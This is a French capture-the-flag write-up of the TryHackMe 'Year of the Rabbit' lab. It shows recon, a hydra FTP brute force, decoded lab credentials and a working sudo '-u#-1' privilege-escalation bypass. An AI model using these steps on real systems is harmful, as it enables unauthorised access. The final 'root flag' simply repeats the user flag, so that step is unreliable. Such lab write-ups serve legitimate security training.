





# Year of the Rabbit #
```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.135.8 yearOfTheRabbit.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
10.10.135.8 yearOfTheRabbit.thm

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A yearOfTheRabbit.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-21 15:33 CEST
Nmap scan report for yearOfTheRabbit.thm (10.10.135.8)
Host is up (0.034s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/21%OT=21%CT=1%CU=44584%PV=Y%DS=2%DC=T%G=Y%TM=60F8224
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   32.54 ms 10.9.0.1
2   32.67 ms yearOfTheRabbit.thm (10.10.135.8)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.15 seconds

```

Ici on a plusieurs services ouverts :   
-ftp sur le port 21  
-ssh sur le port 22  
-http sur le port 80  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp yearOfTheRabbit.thm
Connected to yearOfTheRabbit.thm.
220 (vsFTPd 3.0.2)
Name (yearOfTheRabbit.thm:tim): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```

Sur le serveur Ftp, il est pas possible de se connecter avec anonyme. 

Sur le service http que remarque que d'après le titre de la page est la page par défaut d'Apache.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://yearOfTheRabbit.thm -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://yearOfTheRabbit.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/21 15:46:17 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 284]
/.htaccess            (Status: 403) [Size: 284]
/.htpasswd            (Status: 403) [Size: 284]
/assets               (Status: 301) [Size: 327] [--> http://yearoftherabbit.thm/assets/]
/index.html           (Status: 200) [Size: 7853]                                        
/server-status        (Status: 403) [Size: 284]                                         
                                                                                        
===============================================================
2021/07/21 15:46:35 Finished
===============================================================
```

Ici on à un fichier un lien /assets/. 



Ici on trouve deux fichier RickRolled.mp4 et style.css.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://yearOfTheRabbit.thm/assets/style.css
--2021-07-21 15:52:59--  http://yearoftherabbit.thm/assets/style.css
Résolution de yearoftherabbit.thm (yearoftherabbit.thm)… 10.10.135.8
Connexion à yearoftherabbit.thm (yearoftherabbit.thm)|10.10.135.8|:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 2968 (2,9K) [text/css]
Sauvegarde en : « style.css »

style.css                                                   100%[=========================================================================================================================================>]   2,90K  --.-KB/s    ds 0s      

2021-07-21 15:52:59 (28,4 MB/s) — « style.css » sauvegardé [2968/2968]

tim@kali:~/Bureau/tryhackme/write-up$ cat style.css | head -20
 * {
    margin: 0px 0px 0px 0px;
    padding: 0px 0px 0px 0px;
  }

  body, html {
    padding: 3px 3px 3px 3px;

    background-color: #D8DBE2;

    font-family: Verdana, sans-serif;
    font-size: 11pt;
    text-align: center;
  }
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
  div.main_page {
    position: relative;
    display: table;
```

On télécharge style.css  
Puis en regardant le début fichier dans les commentaires on remarque un lien sup3r_s3cr3t_fl4g.php  



Quand on va sur lien trouvé ci-dessus on nous demande de couper javascript.   



Quand on block Javascrip, on a un message avec une vidéo.  

Il faut lancer et configurer Burpsuite et lance firefox.  


```bash
tim@kali:~/Bureau/tryhackme/write-up$ firefox http://yearOfTheRabbit.thm/sup3r_s3cr3t_fl4g.php
```


On trouve un nouveau lien \/WExYY2Cv-qU   



Nous avons une image.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://yearOfTheRabbit.thm/WExYY2Cv-qU/Hot_Babe.png
--2021-07-21 17:06:44--  http://yearoftherabbit.thm/WExYY2Cv-qU/Hot_Babe.png
Résolution de yearoftherabbit.thm (yearoftherabbit.thm)… 10.10.135.8
Connexion à yearoftherabbit.thm (yearoftherabbit.thm)|10.10.135.8|:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 475075 (464K) [image/png]
Sauvegarde en : « Hot_Babe.png »

Hot_Babe.png                                                100%[=========================================================================================================================================>] 463,94K  1,80MB/s    ds 0,3s    

2021-07-21 17:06:45 (1,80 MB/s) — « Hot_Babe.png » sauvegardé [475075/475075]

tim@kali:~/Bureau/tryhackme/write-up$ strings Hot_Babe.png | tail -84
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

A la fin du fichier de l'image nous avons trouvé :  
-Le nom utilisateur FTP qui est : ftpuser  
-Et une un liste de mots de passe.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ strings Hot_Babe.png | tail -82 > password.txt
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l ftpuser -P ./password.txt -t 12 ftp://yearOfTheRabbit.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-21 17:26:34
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 12 tasks per 1 server, overall 12 tasks, 82 login tries (l:1/p:82), ~7 tries per task
[DATA] attacking ftp://yearOfTheRabbit.thm:21/
[21][ftp] host: yearOfTheRabbit.thm   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-21 17:27:05
```

On a trouvé le bon mot de passe : 5iez1wGXKfPKQ  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp yearOfTheRabbit.thm 
Connected to yearOfTheRabbit.thm.
220 (vsFTPd 3.0.2)
Name (yearOfTheRabbit.thm:tim): ftpuser
^[[3~331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
ftp> get "Eli's_Creds.txt"
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
226 Transfer complete.
758 bytes received in 0.00 secs (916.1317 kB/s)
ftp> exit
221 Goodbye.

tim@kali:~/Bureau/tryhackme/write-up$ cat Eli\'s_Creds.txt 
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

tim@kali:~/Bureau/tryhackme/write-up$ beef Eli\'s_Creds.txt 
User: eli
Password: DSpDiM1wAEwid
```

On se connect sur le serveur FTP.  
On récupère le fichier.   
On regarde le contenue, on remarque que c'est du brainfuck.  
Avec beef un interpréteur brainfuck on décode le message.  

On a un login : 
User : eli  
Password: DSpDiM1wAEwid  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ beef Eli\'s_Creds.txt 
User: eli
Password: DSpDiM1wAEwidtim@kali:~/Bureau/tryhackme/write-up$ ssh eli@yearOfTheRabbit.thm
The authenticity of host 'yearoftherabbit.thm (10.10.135.8)' can't be established.
ECDSA key fingerprint is SHA256:ISBm3muLdVA/w4A1cm7QOQQOCSMRlPdDp/x8CNpbJc8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'yearoftherabbit.thm,10.10.135.8' (ECDSA) to the list of known hosts.
eli@yearoftherabbit.thm's password: 


1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE


eli@year-of-the-rabbit:~$ 
```

On nous affiche un message pour que quelque chose est caché, on suppose que ça un lien avec s3cr3t.  

```bash
eli@year-of-the-rabbit:~$ locate s3cr3t
/usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php

eli@year-of-the-rabbit:~$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

**What is the user flag?**

On à le mot de passe.  

```bash
eli@year-of-the-rabbit:~$ su gwendoline
Password: 
gwendoline@year-of-the-rabbit:/home/eli$ cat /home/gwendoline/user.txt 
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

On se connect sur le compte de gwendoline est on a le flag.  

Réponse : THM{1107174691af9ff3681d2b5bdb5740b1589bae53}  

**What is the root flag?**
```bash
gwendoline@year-of-the-rabbit:/home/eli$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt

gwendoline@year-of-the-rabbit:/home/eli$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3

gwendoline@year-of-the-rabbit:/home/eli$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```

sudo à une faille de sécurité pour les versions antérieur à la 1.8.28 quand on met !root.   
On exploite la faille et on trouve le flag.  

Réponse : THM{1107174691af9ff3681d2b5bdb5740b1589bae53}   
